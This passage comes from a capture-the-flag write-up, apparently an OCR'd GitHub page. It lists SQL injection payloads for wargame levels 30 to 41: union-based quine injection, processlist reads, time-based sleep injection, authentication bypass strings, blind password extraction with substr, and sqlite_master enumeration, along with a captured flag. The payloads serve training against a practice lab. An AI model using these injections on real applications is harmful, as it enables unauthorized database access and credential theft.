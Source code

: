 It is not neccessary to use "as" it's possible to use "from prob_phantom tmp"

### 30 OUROBOROS
using quine code.  

a' union select replace(replace('a" union select replace(replace("$",char(34),char(39)),char(36),"$") as pw%23',char(34),char(39)),char(36),'a" union select replace(replace("$",char(34),char(39)),char(36),"$") as pw%23') as pw%23

### 31 ZOMBIE
using information_schema.processlist  

1' union select substr(info,locate('1',info),length(info)-locate('1',info)) from information_schema.processlist#  

### 32 ALIEN
?no=0 union select substr(0x61646d696e,now()%2,5)%23' union select substr(0x61646d696e,now()%2+1,5)%23 union select sleep(1)%23

### 33 CTHULHU
-1'<@=1 or {a 1}=1 or '  

### 34 DEATH
-1'<@=1 or id like 'ad%' or '

### 35 GODZILLA
-1'<@=1 or length(pw)=8 or '

### 36 CYCLOPS
-1'<@=1 union/**/select 'first', 'second'#

### 37 CHUPACABRA
' or id='admin

### 38 MANTICORE
admin' or id=char(97,100,109,105,110)--%20

### 39 BANSHEE
1' or substr(pw,2,1)='4' -- '  

REL [banshee.py](https://github.com/seolaf/lord-of-sqli/blob/main/39_banshee.py)

### 40 POLTERGEIST
' union select name from sqlite_master -- '  
flag_70c81d99  
' union select * from flag_70c81d99 -- '  

FLAG{ea5d3bbdcc4aec9abe4a6a9f66eaaa13}

### 41 NESSIE
admin' and pw='' or id='admin' and pw=1 -- '  
select id from prob_nessie where id='admin' and 1=(case when len(pw)=16 then 's' end) -- ' and pw=''  
